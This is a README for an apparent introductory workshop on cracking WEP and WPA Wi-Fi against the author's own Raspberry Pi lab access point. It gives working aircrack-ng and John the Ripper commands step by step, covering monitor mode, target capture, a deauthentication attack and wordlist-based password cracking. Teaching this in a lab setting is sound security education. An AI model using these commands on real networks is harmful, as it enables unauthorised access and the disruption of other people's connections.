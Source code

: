 HackerietWifi
=============

Recently I gave a very simple introduction to breaking wireless networks. My aim was
to give people an idea how it's done. I focused on WEP and WPA networks as they are still 
the most common networks found out there. 

For the wireless access point, I used a Raspberry Pi with a Edimax USB dongle on the hardware
side. For software, I used hostapd to get a simple wireless network up and running. The configuration
files for this can be found in the Configs directory. I also used a DHCP server on the Pi to 
ensure that clients connecting to my wireless network were given IP addresses. I could have also
provided network connectivity, but alas I was controlling the Pi over the ethernet connection. 

The packet captures for the WEP and WPA networks are available for cracking in the Pcaps directory.
The initial wordlist for the WPA network is also available but will not work properly with the 
tools without a little manipulation. 

Please note that the commands listed here are just a starting point. There is definitely a quicker
and more efficient way to do this. So check the command options and do a little research :)


Tools used: 
-----------


Aircrack-ng Suite : http://www.aircrack-ng.org

 - airmon-ng
 - airodump-ng
 - aircrack-ng
 - aireplay-ng


John the Ripper: http://www.openwall.com/john/


Snooping on wireless networks
-----------------------------

1. Enable a monitoring interface on your wireless NIC
 
 ```
 airmon-ng start wlan1
```

2. Check that your card support packet injection

```
 aireplay-ng --test mon0 
```

3. Check what wireless networks are out there (find our targets)

```
 airodump-ng mon0
```


WEP Networks
------------

Following from the steps above...

4. Home in on our target network and start saving packets for cracking later

```
 airodump-ng --bssid 00:1F:1F:A8:9D:34 --channel 1 mon0 -w packetcapture.pcap
```

5. Run a "deauth" attack to knock client off the target network
 
```
 aireplay-ng --deauth 10 -a 00:1F:1F:A8:9D:34 --channel 1 mon0 
```


You can either continue to do this and probably get noticed, or shift your attack
to something a little sneakier. Either way you will want to get as much data as you 
can in order to crack the password.

6. Crack that password
 
```
 aircrack-ng -a 1 packetcapture.pcap
```


Wordlists
---------

Our initial wordlist (wordlist.txt) is probably not quite up to scratch, but with a little
manipulation from John, it may be more useful. 

```
 john --wordlist=wordlist.txt --rules --stdout > new_superleet_wordlist.txt
```


WPA Networks 
------------

Pretty much the same as above, except you will just need to deauth a client in order to 
capture that four way handshake that happens with the WPA authentication process.
If you look in the top right corner of the airodump-ng window, you should see that you've
successfully captured the handshake.

After that it's up to having either a good wordlist or decent rainbow tables.
Without those, you will be in trouble...


```
 aircrack-ng -a 2 -w new_superleet_wordlist.txt wpa_packetcapture.pcap
```


That's all there is to it really. 

If there are any questions, comments or ideas on this...please get in touch.


